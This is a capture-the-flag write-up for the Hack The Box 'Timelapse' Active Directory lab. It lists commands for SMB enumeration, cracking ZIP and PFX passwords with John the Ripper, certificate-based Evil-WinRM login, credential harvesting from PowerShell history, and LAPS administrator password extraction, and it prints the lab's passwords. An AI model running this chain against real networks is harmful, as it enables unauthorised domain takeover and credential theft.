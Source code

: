 # Timelapse HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Timelapse-green?logo=hackthebox)](https://app.hackthebox.com/machines/452)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

This walkthrough covers the **Timelapse** Hack The Box (HTB) lab, which focuses on exploiting a Windows Active Directory environment using enumeration, password cracking, and privilege escalation techniques. The main attack path involves:

- Discovering a publicly accessible SMB share,
- Extracting a password-protected ZIP file containing a PFX certificate,
- Cracking the ZIP and PFX passwords using John the Ripper,
- Extracting an SSL certificate and private key from the PFX file,
- Using the certificate and key to authenticate via WinRM,
- Performing PowerShell history enumeration to find new credentials,
- Exploiting LAPS (Local Administrator Password Solution) permissions to fetch the Administrator password, 
- Gaining Administrator access on the domain controller.

---

## Table of Contents

- [Recon and Port Scanning](#recon-and-port-scanning)  
- [Enumerating SMB Shares](#enumerating-smb-shares)  
- [Cracking ZIP Password](#cracking-zip-password)  
- [Extracting PFX File](#extracting-pfx-file)  
- [Cracking PFX Password](#cracking-pfx-password)  
- [Extracting SSL Certificate and Private Key](#extracting-ssl-certificate-and-private-key)  
- [Authentication via WinRM with Evil-WinRM](#authentication-via-winrm-with-evil-winrm)  
- [PowerShell History Enumeration](#powershell-history-enumeration)  
- [Login with `svc_deploy` User](#login-with-svc_deploy-user)  
- [LAPS Password Extraction](#laps-password-extraction)  
- [Administrator Access](#administrator-access)
- [Stepwise PoC](#stepwise-poc)

---

## Recon and Port Scanning

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.227.113 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -SC -sv 10.129.227.113
```
- Perform full port scan and scan only open ports with service detection.

---

## Enumerating SMB Shares
```
smbclient -L //10.129.227.113/
smbclient //10.129.227.113/Shares
```
- List SMB shares, then connect to the "Shares" share.

Within the SMB client:

```
ls
cd Dev
get winrm_backup.zip
```
- List files in the share, navigate to Dev folder, and download the `winrm_backup.zip`.

---

## Cracking ZIP Password

```
zip2john winrm_backup.zip > zip.john
john zip.john -wordlist:/usr/share/wordlists/rockyou.txt
```
- Convert ZIP to John-compatible hash and crack password using rockyou.txt wordlist.

---

## Extracting PFX File

`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes`
- Attempt to extract private key (initially fails due to unknown password).

---

## Cracking PFX Password

```
python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john -wordlist:/usr/share/wordlists/rockyou.txt
```
- Convert PFX to a hash and crack password using John the Ripper.

---

## Extracting SSL Certificate and Private Key

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```
- Extract the private key (unencrypted) and the SSL certificate separately now that the password is known.

---

## Authentication via WinRM with Evil-WinRM

`evil-winrm -i 10.129.227.113 -c cert.pem -k key.pem -S`
- Authenticate to the WinRM SSL service using the extracted cert and private key, skipping SSL certificate verification.

---

## PowerShell History Enumeration

`type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
- View PowerShell command history retrieved to discover new credentials.

---

## Login with `svc_deploy` User

```
evil-winrm -i 10.129.227.113 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
net user svc_deploy
```
- Login as `svc_deploy` using found credentials and check the group memberships.

---

## LAPS Password Extraction

`Get-ADComputer DC01 -property 'ms-mcs-admpwd'`
- Retrieve the current local Administrator password for DC01 computer managed by LAPS.

---

## Administrator Access

`evil-winrm -i 10.129.227.113 -u administrator -p '72)9j8++KMk(38d9sAgO+k9N' -S`
- Use the retrieved LAPS-managed password to login as Administrator and gain full access.

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>

<img width="1562" height="771" alt="16" src="https://github.com/user-attachments/assets/23242ca2-2135-4182-8ee8-585bceb4ef20" />
<img width="1063" height="472" alt="15" src="https://github.com/user-attachments/assets/6bc962ed-6c09-468b-aef7-da2ad1dbb0b8" />
<img width="1382" height="621" alt="14" src="https://github.com/user-attachments/assets/51e4965f-81c2-496a-8234-5c49d0d81db9" />
<img width="714" height="158" alt="13" src="https://github.com/user-attachments/assets/df8d4c1c-40ea-4b83-bf40-c359e7dad25d" />
<img width="1764" height="136" alt="12" src="https://github.com/user-attachments/assets/339768f1-f2c0-4c59-84fa-067dd675359f" />
<img width="1176" height="305" alt="11" src="https://github.com/user-attachments/assets/509a38cf-4317-4d55-960a-fb0a397aa519" />
<img width="700" height="161" alt="10" src="https://github.com/user-attachments/assets/1d44985b-2cbb-47aa-b475-80333c96e0b2" />
<img width="601" height="462" alt="9" src="https://github.com/user-attachments/assets/5179b939-0145-4429-9850-7322eb29377d" />
<img width="997" height="123" alt="8" src="https://github.com/user-attachments/assets/0cdd6f1e-e9df-4696-b898-e840e59ba0be" />
<img width="1189" height="446" alt="7" src="https://github.com/user-attachments/assets/ee2ce62d-fe37-4248-93f0-2c715e383bda" />
<img width="1654" height="639" alt="6" src="https://github.com/user-attachments/assets/aedc1e74-0501-4e59-be10-55610b2bb0ac" />
<img width="1507" height="686" alt="5" src="https://github.com/user-attachments/assets/98692e63-4bd7-4943-be3a-e94ce8c9cbe7" />
<img width="1616" height="458" alt="4" src="https://github.com/user-attachments/assets/3b51cd00-12b6-4b70-8f10-e70cf7403ae8" />
<img width="1188" height="132" alt="3" src="https://github.com/user-attachments/assets/d8237c09-1487-4799-9a4a-f11d027e15fc" />
<img width="1117" height="428" alt="2" src="https://github.com/user-attachments/assets/1669ab7c-2d28-4b63-a5e2-d45c855957e8" />
<img width="1629" height="463" alt="1" src="https://github.com/user-attachments/assets/8e89bfd9-75e9-44d5-aad2-4e45dcda0326" />

</details>  

---

## Tools Utilized

- **John the Ripper**: For cracking ZIP and PFX passwords.
- **OpenSSL**: To extract certificates and keys from PFX files.
- **Evil-WinRM**: For remote Windows management via PowerShell and WinRM.

---

**Note:** 

-  The `.pfx` file contains cryptographic assets (SSL certificate + private key) for authentication.
-  LAPS (Local Administrator Password Solution) securely manages local account passwords of domain-joined computers and stores them in Active Directory.

---
